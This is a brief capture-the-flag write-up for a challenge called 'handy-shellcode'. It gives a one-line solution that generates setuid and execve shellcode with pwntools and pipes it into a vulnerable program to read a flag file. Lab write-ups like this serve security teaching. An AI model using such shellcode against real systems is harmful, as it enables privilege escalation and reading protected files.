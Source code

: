 # handy-shellcode 

## Summary

This program executes any shellcode that you give it. Can you spawn a shell and use that to read the flag.txt? You can find the program in /problems/handy-shellcode_0_24753fd2c78ac1a60682f0c924b23405 on the shell server. Source.

## Solution

```sh
cd /problems/handy-shellcode_0_24753fd2c78ac1a60682f0c924b23405; python -c 'from pwn import *; print(asm(shellcraft.setuid(1002) + shellcraft.execve(path="/bin/cat", argv=["/bin/cat","./flag.txt"])))' | ./vuln;echo
```
